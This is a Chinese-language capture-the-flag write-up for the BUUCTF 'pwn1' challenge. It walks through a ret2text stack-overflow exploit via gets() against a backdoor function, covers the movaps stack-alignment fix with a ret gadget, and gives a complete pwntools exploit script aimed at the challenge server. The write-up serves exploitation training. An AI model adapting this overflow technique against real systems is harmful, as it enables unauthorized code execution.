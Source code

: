 # 知识点

ret2text、堆栈平衡



# 题目分析

1. 查看保护情况，没开启任何保护。

   ```bash
   [*] '/root/Desktop/pwn1'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX disabled
       PIE:      No PIE (0x400000)
       RWX:      Has RWX segments
   ```

2. 拖入IDA分析，发现存在gets栈溢出漏洞，存在后门函数。

   <img src="./asset/ida1.png" alt="ida1" style="zoom: 33%;" />

   <img src="./asset/ida2.png" alt="ida1" style="zoom: 50%;" />

3. 直接ret2text即可。构造Exp：

   ```python
   payload = padding * 0XF + 'deadbeef' + p64(返回地址)
   ```

4. 但是发现本地可以打通，远程打不通，结合题目提示ubuntu18，采用libc-2.27。

   在某些2.23以上的libc版本中，system函数中的movaps指令会检查操作数所在地址是否为0x10的倍数。

   由于64位程序指令地址为8字节，在该题中movaps参数地址只可能是0x8的倍数或0x10的倍数两种情况。

   我们通过溢出手段非法进入后门函数可能会导致调用system时触发该检查失败，即参数地址是0x8的倍数。

   因此我们只需要将payload长度增加8字节即可。

5. 使用ROPgadget寻找ret指令加在返回地址前即可使后续地址都+8。

   ```bash
   ROPgadget --binary pwn1 --only "pop|ret"
   ```

   

# Exp

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./pwn1')
io = remote('node4.buuoj.cn', '25292')

ret = 0x401016
backdoor = 0x401186

payload = 'A' * 0xF + 'deadbeef' + p64(ret) + p64(backdoor)

io.sendline(payload)

io.interactive()
```

